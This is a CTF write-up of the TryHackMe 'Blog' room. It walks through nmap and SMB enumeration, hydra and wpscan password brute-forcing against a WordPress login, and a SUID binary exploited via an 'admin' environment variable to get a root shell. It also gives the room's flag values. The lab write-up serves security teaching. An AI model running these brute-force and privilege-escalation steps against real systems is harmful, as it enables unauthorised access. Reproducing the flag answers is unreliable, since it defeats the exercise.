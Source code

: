 ```yaml
---
title: "Blog - TryHackMe"
category: "THM"
pubDate: 2020-07-17
description: "Writeup for the Blog CTF challenge"
---
```


[TryHackMe | Blog](https://tryhackme.com/room/blog)

Welcome to Blog room, a puzzle-style CTF. Collecting the item, solving the puzzle and escaping the nightmare is your top priority.

Can you survive until the end?If you have any question, do not hesitate to DM me on the discord channel.

![https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80](https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80)

Photo by [Glenn Carstens-Peters](https://unsplash.com/@glenncarstenspeters?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/s/photos/blog?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it! Billy has some
weird things going on his laptop. Can you maneuver around and get what
you need? Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)

---

### Setup

```
➜  TryHackMe nmap -A -vv 10.10.37.237
```

```
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8

80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-generator: WordPress 5.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog

139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28514/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 48324/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 42470/udp): CLEAN (Timeout)
|   Check 4 (port 36313/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-07-12T19:07:26+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-12T19:07:26
|_  start_date: N/A
```

As you can see there is a SMB server open with the guest credentials, let's see what's inside of the server.

```
➜  blog smbclient -L 10.10.37.237
Enter WORKGROUP\kali password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

![https://imgur.com/BMgqkDa.png](https://imgur.com/BMgqkDa.png)

![https://imgur.com/ONKwYZa.png](https://imgur.com/ONKwYZa.png)

```
➜  blog steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
➜  blog cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.
```

Let's see if we can enumerate some username to brute-force the administration page of WordPress

![https://imgur.com/ttyfVpD.png](https://imgur.com/ttyfVpD.png)

Nice, we have the username : bjoel, kwheel

Brute-force with hydra

```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to:blog.thm/wp-admin/'
```

With wpscan

```
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

![https://imgur.com/NFazDUA.png](https://imgur.com/NFazDUA.png)

![https://imgur.com/3UG7eKi.png](https://imgur.com/3UG7eKi.png)

On the website you can see the CVE let's try it 🥺

![https://imgur.com/dl0F04t.png](https://imgur.com/dl0F04t.png)

![https://imgur.com/5T7o6Jf.png](https://imgur.com/5T7o6Jf.png)

### #1 root.txt

```
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![https://imgur.com/BdKvKff.png](https://imgur.com/BdKvKff.png)

With Ghidra I reverse engineering the binary 🐉

```c
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

Exploit

```
$ export admin=SOMTHINGHERE
# Execute the bin
$ /usr/sbin/checker
```

Nice ! You now have the root privilege 🤩

```
root@blog:/dev/shm: cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

### #2 user.txt

```
root@blog:/dev/shm:: find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt

root@blog:/dev/shm: cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

### #3 Where was user.txt found?

```
/media/usb
```

### #4 What CMS was Billy using?

```
Wordpress
```

### #5 What version of the above CMS was being used?

![https://imgur.com/9JSk8SX.png](https://imgur.com/9JSk8SX.png)

```
5.0
```

